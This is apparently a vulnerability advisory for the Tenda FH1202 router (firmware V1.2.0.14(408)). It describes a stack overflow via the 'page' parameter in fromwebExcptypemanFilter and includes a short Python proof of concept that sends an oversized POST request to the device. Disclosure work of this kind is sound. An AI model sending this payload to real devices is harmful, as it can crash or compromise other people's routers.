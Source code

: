 # Tenda FH1202 fromwebExcptypemanFilter
### Overview
vendor: Tenda
product: FH1202
version: V1.2.0.14(408)
type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromwebExcptypemanFilter function.
### Vulnerability details
In function fromwebExcptypemanFilter line 18, it reads in a user-provided parameter `page`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/5.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/webExcptypemanFilter"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/7.png)
